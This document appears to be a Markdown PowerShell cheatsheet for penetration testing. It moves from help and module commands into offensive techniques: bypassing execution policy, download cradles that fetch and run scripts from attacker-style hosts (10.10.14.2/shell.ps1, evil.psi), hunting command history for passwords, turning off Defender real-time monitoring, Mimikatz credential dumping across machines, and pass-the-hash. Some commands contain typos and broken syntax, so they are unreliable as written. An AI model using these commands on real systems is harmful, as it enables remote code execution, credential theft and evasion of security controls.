 # Cheatsheet

## Help System

- Versin information: `$PSVersionTable`



- `Get-Help Get-Process`
- `help Get-Process`
- `Update-Help`



- `Get-Help remoting`
- `Get-Help about_*remot*`

## Basic Constructs

```
Cmdlets
Function
```

### List all Cmdlets

`Get-Command -CommandTyle Cmdlet`

## Aliases

`Get-Alias -Name ps`
`Get-Alias -Definition Get-Process`

## Check Environment

- Version info: `powershell -v 2.0 -c $psversiontable`
- Language mode: `$host.runspace.languagemode`
- Check if AppLocker is enabled: `Get-AppLockerPolicy -Local`

## Download Files
```powershell
powershell wget "http://example.com/abc.txt" -outfile "abc.txt"
```

## Execution Policy

- Not a security feature
- Used to avoid accidental script execution
- Can be bypass with:
  - `powershell -executionpolicy bypass .\example.ps1`
  - `powershell -c <cmd>`
  - `powershell -encodedcommand`
  - `powershell -enc`
  - `$env:PSExecutionPolicyPreference="bypass"`

> Ref https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6

## Modules

`Import-Module <path_to_module> -verbose`

- List all available modules: `Get-Module -ListAvailable -All`
  - List all modules available in: `$env:PSModulePath` 
- All functions exposed by a module: `Get-Command -Module <module_name>`

## Remote Script execution

- `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
- `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
- `powershell -EncodedCommand <Base64EncodedCommand>`

```powershell
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2/shell.ps1')
```
_/B prevents creation of a new window_

- Craft Download Cradles: https://github.com/danielbohannon/Invoke-CradleCrafter

More Download Cradles

- `$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://example.com/example.ps1');sleep 5;$resp=$ie.Document.Body.innerHTML;$ie.quit();iex $resp`
- `iex (iwr 'http://example.com/example.ps1')`
- `$h=New-Object -ComObject Msxm12.XMLHTTP;$h.open('GET', 'http://192.168.230.1/evil.psi1' ,$false);$h.send();iex $h. responseText`
- 
```powershell
$wr [System.NET.WebRequest]::Create("http://192.168.230.1/evil.psi")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader] ($r.GetResponseStream())) .ReadToEnd()```
```

## Command History (PSReadline)

```
cat (Get-PSReadlineOption).HistorySavePath | sls password
```
By default, the path is:
```
profile:\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Powershell Remoting

- Enabled by default from Windows Server 2012
  - `Enable-PSRemoting -Force`
- Admin privileges are required to connect
- `Get-Command -CommandType cmdlet -ParameterName computername`
- `Get-Command -CommandType cmdlet | Where-Object {$_Parameters.Keys --contains 'ComputerName' -and $_Parameters.Keys --contains 'Credential' -and $_Parameters.Keys --notcontains 'Session'}`

### WSMAN Protocol (Uses WinRM)

- Port 5985, 5986
- If target is in a workgroup, attacker's machine should trust target machine to send out credentials: 
  - Set-Item  WSMan:\localhost\client\trustedhosts -Value *
- `Invoke-Command -ScriptBlock {$env:ComputerName} -ComputerName example -Credential dominName/userName `
  - `-FilePath`
- New-PSSession
  - `New-PSSession -ComputerName -Credential`
  - `Get-PSSession`
  - `Enter-PSSession`

### One to One

- Uses PSSession
  - Interactive, stateful session
  - Run in a new process `wsmprovhost`

### Useful cmdlets

New-PSSession
Enter-PSSession

```
Set-MpPreference -DisableRealtimeMonitoring $true
New-PSSession -ComputerName instance

$sess = New-PSSession -ComputerName instance
Enter-PSSEssion - Session $sess
```
### One to Many (Fan-out Remoting)

- Non-interactive
- Parallel command execution
- Can execute scripts from files
- Usable to perform command execution without dropping exe onto disk
- Useful for passing and replying hashes, tickets and other AD attacks

Run commands:
```
Invoke-Command -ScriptBlock{whoami;hostname} -ComputerName instance
```

Run scripts:
```
Invoke-Command -FilePath example.ps1 -ComputerName instance
```

Run functions installed on the remote box:
```
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName instance
```

Stateful commands:
```
$sess = New-PSSession -ComputerName instance
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

Mimikatz (ReflectivePEInjection is used to load into memory)
```
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCerts
```

Pass the Hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<name_of_the_user> /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
```

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator  /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
```

Dump Creds from multiple machines
```
Invoke-Mimikatz -DumpCreds -ComputerName @("instance1", "instance2")
```

## Load PowerUp

```
powershell -ExecutionPolicy Bypass
Import-Module ./PowerUp.ps1
Invoke-AllChecks
```

## Active Directory

- [ADSI]
- .NET Class: `System.DirectoryServices.ActiveDirectory`
- Native Executable
- WMI

## System Information

- `Get-HotFix`e

